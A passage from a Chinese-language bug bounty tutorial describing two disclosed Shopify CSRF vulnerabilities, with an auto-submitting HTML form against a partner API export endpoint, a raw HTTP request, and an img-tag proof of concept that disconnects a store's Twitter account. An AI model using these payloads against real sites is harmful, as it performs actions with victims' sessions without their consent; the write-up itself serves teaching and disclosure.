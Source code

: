 ```html
<html>
    <head><title>csrf</title></head>
    <body onLoad="document.forms[0].submit()">
        <form action="https://app.shopify.com/services/partners/api_clients/1105664/\ export_installed_users" method="GET">
        </form>
    </body>
</html>
```
這裡，通過僅僅瀏覽站點，JavaScript 就會提交表單，它實際上包含 Shopify API 的 GET 請求，使用受害者的瀏覽器，並提供 Shopify 的 Cookie。

>重要結論
>
>擴展你的攻擊領域，並從站點轉向它的 API 終端。 API 提供了極大的漏洞可能性，所以最好牢記他，尤其是當你知道 API 
>可能開發完畢，或者在站點實際開發之後可用的時候。


---

## **2. Shopify Twitter 斷開連接**

```
難度：低

URL：https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect
報告鏈接：https://hackerone.com/reports/111216
報告日期：2016.1.17
獎金：$500
```
## **描述：**

Shopify 提供了 Twitter 的繼承，來允許店主轉推它們的商品。與之相似，也提供了功能來斷開推特帳戶和被連接商店的鏈接。
<p>
斷開 Twitter 帳戶的 URL 寫在了上面。當進行呼叫時，Shopify 不驗證 CSRf Token，這可能會允許惡意人員代表受害者進行 GET 呼叫，因此斷開受害者的商店與 Twitter 的連接。
<p>
在提供這份報告的時候，WeSecureApp 提供了下面的漏洞請求示例 - 要注意下面的img標籤的使用，它對漏洞 URL 進行呼叫：

```
GET /auth/twitter/disconnect HTTP/1.1
Host: twitter-commerce.shopifyapps.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:43.0) Gecko/2010010\ 1 Firefox/43.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://twitter-commerce.shopifyapps.com/account
Cookie: _twitter-commerce_session=REDACTED
Connection: keep-alive
```
由於瀏覽器進行 GET 請求來獲取給定 URL 處的圖片，並且不驗證任何 CSRF Token ，用戶的商店現在已斷開連接：

```html
<html>
    <body>
        <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect">
    </body>
</html>
```
